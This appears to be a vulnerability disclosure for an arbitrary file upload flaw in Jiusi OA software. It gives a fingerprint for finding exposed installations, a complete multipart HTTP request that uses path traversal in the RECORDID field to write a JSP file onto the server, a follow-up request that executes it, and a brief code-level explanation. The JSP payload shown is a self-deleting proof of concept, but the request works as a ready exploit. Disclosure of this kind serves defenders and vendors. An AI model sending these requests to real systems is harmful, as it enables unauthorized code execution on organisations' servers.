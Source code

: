 # Jiusi OA has an arbitrary file upload vulnerability

Product Source:http://www.jiusi.net/
body="/jsoa/login.jsp"
![1760595183728](1760595183728.png)

##### Vulnerability reproduction:

```
POST /jsoa/OfficeServer?isAjaxDownloadTemplate=false HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Length: 1692

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="FileData"; filename="1.jpg"

Content-Type: image/jpeg

<% out.println("loc");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="test"

{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":"../../CheckUser","FILETYPE":".jsp"}
{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":".. /.. /CheckUser","FILETYPE":".jsp"}

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1--
```

![1760594938912](1760594938912.png)

Access the uploaded file

```

GET /jsoa/CheckUser.jsp HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate
```

![1760595100481](1760595100481.png)

Successfully uploaded and accessed

##### White Box Vulnerability Analysis:

In the servlet of the Office Server, there is a SAVEFILE, and the save2DB method is called in the SAVEFILE option

![1760595160239](1760595160239.png)

When isDoc is equal to fasle, the faveFile method of the Jinger component is called to write the file, and the filetype is controllable, causing arbitrary file upload vulnerabilities

![1760595183727](1760595183727.png)


